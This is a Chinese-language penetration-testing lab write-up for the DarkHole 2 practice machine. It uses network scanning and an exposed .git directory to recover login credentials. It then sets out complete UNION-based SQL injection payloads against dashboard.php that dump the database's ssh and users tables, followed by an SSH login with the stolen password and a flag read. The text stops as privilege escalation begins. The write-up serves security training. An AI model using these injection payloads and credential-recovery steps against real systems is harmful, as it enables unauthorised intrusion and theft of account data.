【实验目的】

学习MySQL注入漏洞利用原理与方法

掌握通过SQL注入获取系统权限的完整流程

理解信息泄露、权限提升等渗透测试关键环节

【实验要求】

通过SQL注入获取账号密码。

【实验步骤】

1. 信息收集与目标确认

1.1 网络扫描确定靶机IP

arp-scan -l



确定靶机ip为192.168.214.130

1.2 端口扫描确定服务

扫描靶机所有端口开放情况

nmap -sV -p- 192.168.214.130



可以看到端口22、80是开放的。

3. 浏览器输入192.168.214.130:80。

命令行输入whatweb 192.168.214.130查询网站指纹信息。



没什么关键信息。

4. 输入gobuster dir -u http://192.168.214.130 -w /usr/share/wordlists/dirb/common.txt -t 50，扫描网站目录。



扫描出来个/.git/目录，这个目录是本次渗透测的关键点。

5. 使用wget递归下载.git目录

wget -r -np -R "index.html*" http://192.168.214.130/.git/



下载完成后：

# 进入下载的目录

cd 192.168.214.130

# 初始化git仓库

git init

git add .

git commit -m "restore"

# 查看git日志

git log





6. 查看这两个提交的差异：

# 查看第一次提交（添加login.php）

git show a4d900a8d85e8938d3601f3cef113ee293028e10



已经成功获取到了关键的登录凭证：

发现的凭证信息：

邮箱: lush@admin.com

密码: 321

7.浏览器中访问 http://192.168.214.130

用凭证信息登录：

观察到：跳转到 dashboard.php页面

8. 判断注入类型

测试1：添加单引号测试

http://192.168.214.130/dashboard.php?id=1'

页面异常，可能存在SQL注入

测试2：判断数字型还是字符型注入

http://192.168.214.130/dashboard.php?id=1 and 1=1

http://192.168.214.130/dashboard.php?id=1 and 1=2



两者返回相同，说明不是数字型注入。

测试3：判断闭合字符

http://192.168.214.130/dashboard.php?id=1' --+

页面正常，说明是字符型单引号闭合。

9. 确定列数

http://192.168.214.130/dashboard.php?id=1' order by 1--+

http://192.168.214.130/dashboard.php?id=1' order by 2--+

http://192.168.214.130/dashboard.php?id=1' order by 3--+

http://192.168.214.130/dashboard.php?id=1' order by 4--+

http://192.168.214.130/dashboard.php?id=1' order by 5--+

http://192.168.214.130/dashboard.php?id=1' order by 6--+

http://192.168.214.130/dashboard.php?id=1' order by 7--+

order by 6时页面正常

order by 7时异常，说明有6列

确定回显位

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,3,4,5,6--+



10. 获取数据库信息

http://192.168.214.130/dashboard.php?id=-1' union select 1,database(),version(),4,@@basedir,@@datadir--+



获取数据库名：darkhole_2，版本等信息

11. 获取表名

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()--+

获取表名：ssh和users

12. 获取字段名

ssh表字段：

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_name='ssh'--+

ssh表字段：id, pass, user

users表字段：

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_name='users'--+



users表字段：id, email, password, username等

13. 获取敏感数据

获取ssh表数据：

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,group_concat(id),4,group_concat(user),group_concat(pass) from ssh--+

获取SSH账号：jehad，密码：fool

获取users表数据：

http://192.168.214.130/dashboard.php?id=-1' union select 1,2,group_concat(id),4,group_concat(username),group_concat(password) from users--+



确认用户信息

14. 初始访问获取

SSH连接靶机

ssh jehad@192.168.214.130

# 密码：fool



成功登录靶机系统

15. 获取第一个flag

cat /home/losy/user.txt

获取第一个flag：DarkHole{'This_is_the_life_man_better_than_a_cruise'}

16. 权限提升与横向移动

查看定时任务

cat /etc/crontab

